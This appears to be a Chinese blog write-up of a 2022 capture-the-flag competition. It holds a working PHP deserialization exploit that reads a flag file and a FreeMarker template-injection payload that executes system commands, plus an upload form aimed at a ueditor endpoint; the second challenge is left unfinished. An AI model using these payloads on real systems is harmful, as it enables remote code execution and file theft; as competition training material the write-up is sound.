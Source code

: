 ```yaml
---
layout: post
title: "2022年全省通信和互联网行业职业技能竞赛 WriteUp"
date: 2022-11-03
toc: true
author: Bin4xin
categories:
- blog
tags:
- CTF
- WriteUp
---
```


## 1.Web PHP serialize

反序列化考点；题意：

定义了两个class，class A是去找传入进来的文件位置并做if存在判断，过程中对`$filepath`做base64解码；

```php
class A{
    public $files;
    public function findFile()
    {
        echo $this->files;
        if (file_exists(base64_decode($this->files->filepath)))
        {
            echo "This is a file";
        }else{
            echo "File not found";
        }
    }
    public function __destruct()
    {
        $this->findFile();
    }
}
```

第二个class B是对传入的`$filepath`做了一个简单的过滤判断，如果传入的字符符合`/flag`，那么就直接退出报`die("no")`；

```php
class B{
    public $filepath;
    public function shutdown()
    {
        die("no");
    }
    public function __toString()
    {
        $result = $this->filepath;
        if (strstr($result,"L2ZsYWc") || strlen($result)>8){
            $this->shutdown();
        }
        $result = base64_decode($result);
        $content = file_get_contents($result);
        echo $content;
        return "";
    }
}
```

最后就针对传入的参数做反序列化：

```php
@$a = $_GET['a'];
@unserialize(base64_decode($a));
```

所以定义两个函数传入`$filepath`，序列化后对字符串进行base64编码即可：

## exp

```php
 <?php
class A{
    public $files;
}
class B{
    public $filepath;
}

$a = new A();
$b = new B();

$a->files = $b;
$b->filepath = "Ly9mbGFn";
echo base64_encode(serialize($a));
?>
```

`php7 exp.php`

![2022-10-31-23.08.27.png](https://image.yjs2635.xyz/images/2022/11/03/2022-10-31-23.08.27.png)

## 2.Web FunnyJava

题目给出了一个Jar包； IDEA引用lib直接反编译

直接定位`Controller`：

### Search
```
FunnyJava.jar!/BOOT-INF/classes/com/funnnyjava/Controller/Search.class
```

```java
@RequestMapping(
        value = {"/search"},
        method = {RequestMethod.GET, RequestMethod.POST}
    )
    @ResponseBody
    public String search(HttpServletRequest request, HttpServletResponse response) {
        String search = request.getParameter("search");
        if (search == null) {
            search = "search.html";
        }
        ···
        return content;
    }
```
一个`/Search`功能，提供`search`参数返回相关内容；解析模版可以通过以下类中看到[^1]：

```
FunnyJava.jar!/BOOT-INF/classes/com/funnnyjava/util/ParserUtil.class
```

```java
String buildTempletPath = BasicUtil.getRealPath(context, "") + "templates" + File.separator;
```

### Editor

第二个是一个ueditor的路由定义：

```java
@RequestMapping({"/static/plugins/ueditor/{version}/jsp"})
··· {
···
    @RequestMapping({"editor"})
    public String editor(HttpServletRequest request, HttpServletResponse response, String jsonConfig){
        ···
            }
        }
```

应该是一个上传功能的路由定义，但是我们看完两个Controller还暂时没有思路，上传点这里我们暂时放下不表；

### 解题思路

Search功能我们可以看到默认解析的是webapp中的`search.html`并返回；

Editor上传功能也有可能我们找到上传点，可以直接getshell；

所以目前有两个思路：

- 思路一：`Search`直接模版解析RCE；
- 思路二：`Editor`上传getShell；

## 本地调试

思路一：

```java
import freemarker.core.ParseException;
import freemarker.template.MalformedTemplateNameException;
import freemarker.template.TemplateNotFoundException;
```
我们可以看到搜索功能下导入的模版解析库；我们搜索关键词`Freemarker模板注入`，可以看到网上很多相关文章，而且在Jar包中其实也给了我们提示：

```
FunnyJava.jar!/BOOT-INF/classes/templates/1647232439869.htm
```
我们直接本地起环境，把代码放到模版位置，查看运行情况：

```html
<#assign exec="freemarker.template.utility.Execute"?new()> ${ exec("id") }
```

![2022-10-31-23.07.36.png](https://image.yjs2635.xyz/images/2022/11/03/2022-10-31-23.07.36.png)

我们可以看到，模版解析RCE。所以思路一没问题，那么我们应该怎么把我们生成的模版让服务器去执行呢？

思路二：

显然，需要通过`ueditor`的上传功能上传到`webapp/templates`目录下（前面已经解释目录来源），然后通过`search`功能来解析我们的恶意模版来达到RCE的目的；

## 上传点突破

我们通过前面[Editor](#editor)的路由定义来找到路由如何访问，并定义相关参数上传我们的模版：

根据`@RequestMapping`的定义和`ueditor`的相关用法，找到上传的路由为：

```
http://localhost:8080/static/plugins/ueditor/1.4.3.3/jsp/editor?action=uploadimage
```

payload：

```html
<form action="http://192.168.3.50:8080/static/plugins/ueditor/1.4.3.3/jsp/editor?action=uploadimage" method="post" enctype="multipart/form-data">
    <div><input type="file" multiple="multiple" accept="image/*" name="image"></div>
    <div><input type="submit" value="上传"></div>
</form>
```

不过构造完payload上传后会一直提示`IO错误`；考虑有可能是写入文件格式不正确；

[//]: # (Mark TODO)

## REF

[^1]: [FreeMarker模板开发中StringTemplateLoader的用法](https://blog.csdn.net/weixin_41986096/article/details/105481817){:target="_blank"}